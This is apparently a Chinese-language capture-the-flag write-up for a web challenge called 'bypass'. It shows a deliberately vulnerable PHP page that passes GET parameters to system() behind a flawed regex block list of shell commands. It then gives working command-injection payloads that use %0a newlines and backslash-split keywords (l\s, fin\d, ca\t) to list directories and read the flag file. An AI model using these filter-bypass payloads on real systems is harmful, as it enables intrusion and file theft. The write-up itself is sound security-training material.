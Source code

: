# bypass
## 考察知识点
### 1.//在php中转义成/，/在正则表达式中用来转义
### 2.linux中命令的绕过

# 源码如下：
```
<?php
highlight_file(__FILE__);
$a = $_GET['a'];
$b = $_GET['b'];
// try bypass it
if (preg_match("/\'|\"|,|;|\\|\`|\*|\n|\t|\xA0|\r|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $a))
//    如果含有非法字符，a=null
    $a = "";
//将a用双引号包起来
$a ='"' . $a . '"';
//|\\|\n|=|\|\n|
if (preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $b))
    $b = "";
$b = '"' . $b . '"';

//
$cmd = "file $a $b";
str_replace(" ","","$cmd");
system($cmd);
?>
```

```
a中的
|\\|\`|\*|=||`|\*|=(|`)*)
b中的
|\\|\n|=||\n|=(|\n)
为了看起来方便将||替换为（）
```

#### 所以漏洞点出现，原本a要过滤的\，`,*变成了过滤|`和|*
#### b要过滤的\和\n变成了|\n
#### 因为这个小漏洞此时a和b都可以用\了

### 此处的\可以用来绕过正则过滤
l\s可以列出目录

参考该文章：https://blog.zeddyu.info/2019/01/17/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/

可以使用%0a来绕过。

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/unctf/images/E9ED7DE3ED03436794AD41780D2FCD0Eweb1_bypass.png)

```
构造payload:?a=\&b=%0al\s%0a
```
![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/unctf/images/6F10B6728F774EE0A31B477CABF2BFFFweb1_bypass2.png)

flag文件不在当前目录下，所以查询其他目录
```
find var/www/html
payload:?a=\&b=%0afin\d%20/var/www/html/%0a
```
![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/unctf/images/3C5E331F105843878BE0A465C18DF0E3web1_bypass3.png)

所以此时读取flag文件即可
```
payload:?a=\&b=%0aca\t%20/var/???/html/.F1jh_/h3R3_1S_your_F1A9.txt%0a
```
![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/unctf/images/39C079542A7A4690956243C14F7B2C87web1_bypass4.png)


# //TODO 不太明白知识点%0a和www为啥要用？？？
双引号将命令变成了字符串此处采用反引号绕过，但是反引号被过滤了 所以采用%0a